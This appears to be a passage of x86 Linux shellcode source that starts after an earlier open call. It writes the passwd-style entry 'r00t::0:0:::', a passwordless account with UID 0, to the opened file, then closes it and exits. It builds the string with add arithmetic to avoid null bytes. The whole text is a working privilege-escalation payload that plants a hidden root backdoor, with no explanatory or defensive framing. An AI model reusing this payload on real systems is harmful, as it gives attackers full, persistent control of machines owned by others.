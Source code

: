           mov ebx, eax

     ; write(ebx, "r00t::0:0:::", 12)

          push byte 4
          pop eax
          xor edx, edx
          push edx
          mov esi, 0x2805e3b8
          add esi, 0x12345678 
          mov dword [esp-4], esi ; :::0
          sub esp, 4
          push 0x3a303a3a ; :0::
          push 0x74303072 ; t00r
          mov ecx, esp
          push byte 12
          pop edx
          int 0x80

     ; close(ebx)

          push byte 6
          pop eax
          int 0x80

     ; exit()

          push byte 1
          pop eax
          int 0x80